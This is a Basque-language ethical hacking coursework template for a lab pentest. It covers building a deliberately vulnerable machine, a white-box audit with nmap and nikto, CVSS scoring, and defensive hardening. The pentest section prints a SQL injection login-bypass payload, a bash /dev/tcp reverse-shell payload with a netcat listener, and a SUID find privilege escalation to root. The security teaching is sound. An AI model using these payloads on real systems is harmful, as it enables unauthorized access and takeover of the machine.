

# HACK - Hacking Etikoa eta Segurtasun Auditoria

**Modulua:** Hacking Etikoa eta Sare Segurtasuna  
**Helburua:** Proba-ingurune kontrolatuan eraso eta defentsa simulazioak burutzea: taldeak prestatutako makina ahula (vulnerable machine) sarean txertatzea, Kutxa Zuriko (White Box) ahultasun-auditoria integrala 3 fasetan egitea zerbitzari guztiei, eta Pentesting probak (ustiapena eta post-ustiapena) gauzatzea defentsa neurriak proposatuz.  
**Erreferentzia-rubrika:** HACK IE2 (%32.00)

---

## 1. Taldeak Prestatutako Makina Ahula (Vulnerable Target)
*Rubrika Aurreratua (10):* Taldeak berak prestatutako makina bat txertatu da sarean. Sare-konfigurazio isolatua du (ez dauka Interneterako irteerarik, baina barne LANetik irisgarria da), eta parametro guztiak (sare-konexioa, zerbitzuak eta gutxienez 3 ahultasun) xehetasunez dokumentatu dira.

### 1.1. Sare Konfigurazioa eta Isolamendua
* **IP Helbidea:** `192.168.1.80/24`
* **Atebidea (Gateway):** Kanpora irteerarik gabe (Gateway gabe edo Firewall bidez WAN atzipena blokeatuta).
* **Isolamenduaren Arrazoia:** Makina ahulak kanpoko mehatxuetara zabaldu gabe mantentzea eta barne laborategiko probak soilik baimentzea.

### 1.2. Zerbitzuak eta Integratutako Ahultasunak (Gutxienez 3)
| # | Zerbitzua / Ataka | Ahultasun Mota (CWE / CVE) | Deskribapen Teknikoa |
| :---: | :--- | :--- | :--- |
| **1** | HTTP / Apache (80) | **SQL Injection (SQLi)** | Login formularioan parametroak garbitu gabe bidaltzen dira SQL kontsultara |
| **2** | HTTP / Apache (80) | **Command Injection / RCE** | Ping tresna bat simulatzeko web orrian erabiltzailearen sarrera zuzenean exekutatzen da `system()` bidez |
| **3** | SSH (22) edo FTP (21) | **Kredentzial Ahulak (Brute Force)** | Erabiltzaile estandarra pasahitz ahularekin (`test:password123`) edo FTP bertsio zahar eta ahula |
| **4** | Sistema Eragilea (Linux) | **Privilege Escalation (SUID)** | `/usr/bin/find` edo `/usr/bin/python` bitarrari SUID baimena ezarrita baimen goratzeko |

* **Ebidentziak:**
> *(Gehitu hemen makinaren sare-konfigurazioa eta txertatutako kode ahulen zatiak)*

---

## 2. Kutxa Zuriko (White Box) Ahultasun Auditoria
*Rubrika Aurreratua (10):* 3 faseak zehatz deskribatu eta LANeko makina eta zerbitzari guztiei (makina ahula barne) auditoria osoa aplikatu.



### 2.1. 1. Fasea: Helburuak eta Mugak (Scope)
* **Aztertutako Sistemak eta Segmentuak:**
  - Sareko segmentua: `192.168.1.0/24`
  - Web eta Datu-base zerbitzaria: `192.168.1.20`
  - Active Directory / DNS zerbitzaria: `192.168.1.10`
  - Makina ahula (Taldearena): `192.168.1.80`
* **Mugak:** Ezin da zerbitzua erabat bota (Denial of Service - DoS debekatua), datu garrantzitsuak suntsitzea debekatua.

### 2.2. 2. Fasea: Informazio Bilketa (Reconnaissance & Scanning)
* **Tresnak:** Nmap, Nessus / OpenVAS, Nikto.
* **Exekuzio Komandoak:**
```bash
# Ostalariak eta ataka irekiak aurkitu
nmap -sS -sV -O -p- --open 192.168.1.0/24 -oA nmap_lan_scan

# Web zerbitzuen ahultasunak aztertu
nikto -h http://192.168.1.80
```
* **Makina guztietako Ataken eta Bertsioen Emaitzak:**
  - `192.168.1.10`: 53 (DNS), 88 (Kerberos), 389 (LDAP), 445 (SMB)
  - `192.168.1.20`: 80 (HTTP), 443 (HTTPS), 3306 (MySQL baimenduentzat)
  - `192.168.1.80`: 21 (FTP), 22 (SSH), 80 (HTTP)

### 2.3. 3. Fasea: Ahultasunen Analisia eta Larritasun Sailkapena (CVSS v3.1)
| Makina | Aurkitutako Ahultasuna | Larritasuna | CVSS Puntuazioa | Eragina |
| :--- | :--- | :---: | :---: | :--- |
| `192.168.1.80` | RCE (Web Command Injection) | **KRITIKOA** | **9.8** | Urruneko erasotzaile batek komandoak exekutatu ditzake zerbitzarian |
| `192.168.1.80` | SQL Injection (Login orrian) | **ALTUA** | **8.5** | Datu-baseko erabiltzaile eta datuak ateratzeko edo autentifikazioa saihesteko |
| `192.168.1.80` | SUID binario bidezko Privilege Escalation | **ALTUA** | **7.8** | Erabiltzaile arruntak root baimenak lortu ditzake lokalean |
| `192.168.1.20` | Ahultasun orokorrak / Header segurtasun falta | **BAXUA** | **3.1** | X-Frame-Options edo HSTS header gabeziak |

* **Ebidentziak:**
> *(Gehitu hemen Nmap eta ahultasun-eskanerraren txostenen pantaila-argazkiak)*

---

## 3. Pentesting: Ustiapena, Post-Ustiapena eta Defentsak
*Rubrika Aurreratua (10):* Ustiapenaren (Exploitation) eta post-ustiapenaren (Post-exploitation) kontzeptuak argi azalduta, makinaren kontra gutxienez 3 proba egin (eta bat arrakastatsua) ebidentziekin, eta defentsa-neurri sendoak proposatuta.

### 3.1. Kontzeptuak: Ustiapena eta Post-Ustiapena
* **Ustiapena (Exploitation):** Sisteman identifikatutako segurtasun-zuloa (ahultasuna) baliatuz baimendu gabeko sarbidea edo kontrola lortzeko fasea.
* **Post-Ustiapena (Post-Exploitation):** Sisteman sartu ondoren egindako jarduerak: baimenak handitzea (Privilege Escalation), sarean zehar mugitzea (Lateral Movement), informazio sentikorra biltzea (Data Exfiltration) eta iraunkortasuna lortzea (Persistence).

---

### 3.2. Pentesting Probak Makina Ahularen Kontra

#### Proba 1: SQL Injection bidezko Autentifikazio Saihestea (Arrakastatsua)
* **Payload:** `' OR '1'='1' --`
* **Helburua:** Pasahitza jakin gabe administratzaile bezala logeatzea.
* **Emaitza:** Arrakastatsua. Saioa hasi da eta kudeaketa panelera sartu da.
* **Ebidentzia:**
> *(Gehitu hemen SQLi payload txertaketa eta saioa hasitako pantailaren irudia)*

#### Proba 2: Web Command Injection bidez Reverse Shell Lortzea (Arrakastatsua)
* **Payload:** `; bash -i >& /dev/tcp/192.168.1.50/4444 0>&1`
* **Exekuzioa (Erasotzailearen makinan entzuten):**
```bash
nc -lvnp 4444
```
* **Emaitza:** Arrakastatsua. Erasotzaileak `www-data` erabiltzailearen shell interaktiboa lortu du.

#### Proba 3: Post-Ustiapena - Baimenak Goratzea SUID Bidez (Privilege Escalation)
* **Komandoa:**
```bash
find / -name root_flag.txt -exec /bin/sh -p \;
# Emaitza: whoami -> root
```
* **Emaitza:** Arrakastatsua. `root` erabiltzaile nagusiaren kontrol osoa eskuratu da.
* **Ebidentziak:**
> *(Gehitu hemen Netcat konexioaren eta root bihurtutako terminalaren argazkiak)*

---

### 3.3. Defentsa Neurriak eta Hardening Konponbideak
Identifikatutako ahultasun bakoitzari dagokion soluzio teknikoa:

1. **SQL Injection Aurka:**
   - Datu-baseko kontsulta guztietan *Prepared Statements* eta *Parameter Binding* erabiltzea derrigortu (PDO / ORM).
2. **Command Injection Aurka:**
   - Erabiltzailearen sarrerak zuzenean shell interpreterrera sekula ez bidaltzea (`system()`, `exec()`, `passthru()` debekatu).
   - Sarrerak erabat balioztatu eta karaktere bereziak iragazi (`escapeshellcmd()`).
3. **Privilege Escalation Aurka:**
   - SUID baimena duten binarioen auditoretza zorrotza: `chmod -s /usr/bin/find`.
   - Sistema eragilearen eta paketeen segurtasun-adabakiak automatikoki aplikatzea.
4. **WAF (Web Application Firewall) eta IDS:**
   - ModSecurity modulu aktibatzea Apache/Nginx-en eraso-patroiak automatikoki blokeatzeko.
   - Suricata alertak konfiguratzea reverse-shell konexioak detektatzean IPa blokeatzeko.
